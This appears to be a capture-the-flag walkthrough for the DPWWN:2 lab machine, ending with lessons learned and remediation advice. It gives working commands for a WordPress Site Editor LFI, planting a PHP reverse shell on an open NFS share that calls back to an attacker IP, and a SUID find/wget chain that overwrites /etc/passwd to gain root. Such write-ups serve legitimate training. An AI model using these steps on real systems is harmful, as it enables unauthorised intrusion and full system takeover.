

# DPWWN: 2 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 10.10.10.10 |
| **Attacker IP** | 10.10.10.128 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root — `/root/dpwwn-02-FLAG.txt` |
| **Source** | [HackingArticles](https://www.hackingarticles.in/dpwwn2-vulnhub-walkthrough/) |

## Attack Summary

DPWWN:2 combines two distinct attack vectors: a WordPress Site Editor plugin Local File Inclusion vulnerability and an exposed NFS share. The LFI is leveraged to read a PHP reverse shell that was planted on the NFS-mounted home directory. Root is achieved by abusing a SUID `find` binary to grant `wget` the SUID bit, then overwriting `/etc/passwd` with a crafted entry containing a known password hash.

## Methodology

1. Recon — nmap reveals HTTP (80/443) and NFS (2049)
2. Enumeration — WordPress + WPScan plugin audit, NFS share export discovery
3. Exploitation — Site Editor 1.1.1 LFI + NFS-planted PHP reverse shell
4. PrivEsc — SUID find → chmod wget → overwrite /etc/passwd → su to new root-UID user

---

## Step 1: Reconnaissance

```bash
nmap -A 10.10.10.10
```


Open ports:
- **80/tcp** — HTTP
- **443/tcp** — HTTPS
- **2049/tcp** — NFS

---

## Step 2: Enumeration

**Web (port 80):** Default welcome page. Directory brute-force reveals WordPress:

```bash
dirb http://10.10.10.10/
# Found: /wordpress/
```

**WPScan plugin audit:**

```bash
wpscan --url http://10.10.10.10/wordpress -e p
# Vulnerable plugin: Site Editor 1.1.1
# Vulnerability: Local File Inclusion (EDB-44340)
```


**NFS enumeration:**

```bash
showmount -e 10.10.10.10
# Export: /home/dpwwn02  (everyone)
```

---

## Step 3: Exploitation — LFI via Site Editor Plugin

Confirm LFI by reading `/etc/passwd`:

```bash
curl "http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd"
```


Exploit the NFS share to plant a PHP reverse shell that the LFI will execute:

```bash
# Mount the NFS share
cd /tmp && mkdir raj
mount -t nfs 10.10.10.10:/home/dpwwn02 /tmp/raj

# Copy and configure the PHP reverse shell
cp /usr/share/webshells/php/php-reverse-shell.php /tmp/raj/shell.php
# Edit shell.php: set $ip to 10.10.10.128 and $port to 1234

# Start listener
nc -lvp 1234

# Trigger the shell via LFI
curl "http://10.10.10.10/wordpress/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/home/dpwwn02/shell.php"
```


Result: reverse shell as a low-privilege user.

---

## Step 4: Privilege Escalation — SUID find + wget /etc/passwd overwrite

Find SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
# /usr/bin/find  <-- SUID set
```

Use the SUID `find` binary to add the SUID bit to `wget`:

```bash
find /home -exec chmod u+s /usr/bin/wget \;
ls -la /usr/bin/wget
# -rwsr-xr-x  /usr/bin/wget
```

On the attacker machine, craft a malicious `/etc/passwd`:

```bash
# Copy the original passwd from the target
# Generate a password hash for user "raj" with password "pass123"
openssl passwd -1 -salt user3 pass123
# Output: $1$user3$...

# Append a root-privileged user to the copied passwd file
echo 'raj:$1$user3$<HASH>:0:0:raj:/root:/bin/bash' >> passwd

# Serve the file
python3 -m http.server 8080
```

On the target, overwrite `/etc/passwd` using SUID wget:

```bash
wget -O /etc/passwd http://10.10.10.128:8080/passwd
```

Switch to the new root user and read the flag:

```bash
su raj
# Password: pass123
id
# uid=0(root)
cd /root
cat dpwwn-02-FLAG.txt
```



---

## Lessons Learned

- NFS shares exported to everyone (`*`) allow any attacker on the network to read, write, and execute files.
- Outdated WordPress plugins with known LFI vulnerabilities are a trivial initial foothold when the webserver can reach NFS-mounted directories.
- SUID on `find` is a well-known GTFOBins escalation path — it should never have the SUID bit set on production systems.
- Writable `/etc/passwd` (even indirectly via SUID wget) allows instant root by appending a user with UID 0.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| NFS share exported to everyone | Restrict exports to specific IPs; require Kerberos/AUTH_SYS with UID squashing |
| Site Editor 1.1.1 LFI | Update or remove the plugin; pin WordPress plugins to audited versions |
| SUID bit on `find` | Remove: `chmod u-s /usr/bin/find`; audit SUID binaries regularly |
| /etc/passwd writable via wget | Restrict write access to `/etc`; use immutable file flags where applicable |
